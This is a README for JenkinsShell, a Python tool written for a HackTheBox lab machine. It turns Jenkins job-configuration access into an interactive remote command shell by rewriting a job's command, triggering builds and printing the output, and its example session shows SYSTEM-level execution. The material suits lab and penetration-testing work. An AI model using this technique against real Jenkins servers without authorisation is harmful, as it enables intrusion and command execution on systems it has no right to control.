 # JenkinsShell 🛠️

A Python tool to interact with Jenkins servers via the REST API.  
Supports pulling and updating job configs, replacing `<command>` in Freestyle jobs, triggering builds, fetching console output, and an **interactive shell mode** (`--shell`) for running commands repeatedly through Jenkins.

---

## ✨ Features

- **Pull job config** (`--pull-config`)
- **Push/update config** (`--push-config`)
  - Replace the job’s `<command>` with `--command`
- **Trigger builds** (`--build`)
  - Auto-uses `<authToken>` if present
  - Normalizes Jenkins URLs (avoids `localhost:8080` issues)
  - Fetches and prints console output
- **Interactive shell** (`--shell`)
  - Provides a prompt (`jenkins$`)
  - Each command replaces `<command>`, updates the job, triggers a build, and prints logs
  - Exit with `exit`, `quit`, or `Ctrl+C`

### 🚀 Usage

All modes require:
```
--url    Base URL of Jenkins server (e.g. http://10.10.11.132:8080)
--job    Jenkins job name
--user   Jenkins username
--token  Jenkins API token
--file   Path to config.xml (used for pull, push, or shell mode)
```

Pull Job Config
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --pull-config --file config.xml
```

Push Job Config
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --push-config --file config.xml
```

Replace <command> automatically before upload:
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --push-config --file config.xml --command "whoami"
```
Push + Build
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --push-config --file config.xml --command "ipconfig /all" --build
```
Build Only
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --build
```

Interactive Shell
```
jenkinsshell --url http://10.10.11.132:8080 \
  --job TestJob --user ha1ks --token <api_token> \
  --file config.xml --shell
```

Example session:
```
jenkins$ whoami
========== JOB OUTPUT ==========
nt authority\system
================================
jenkins$ ipconfig
... output ...
jenkins$ exit
[*] Bye.
```

(written for the Object box on htb)
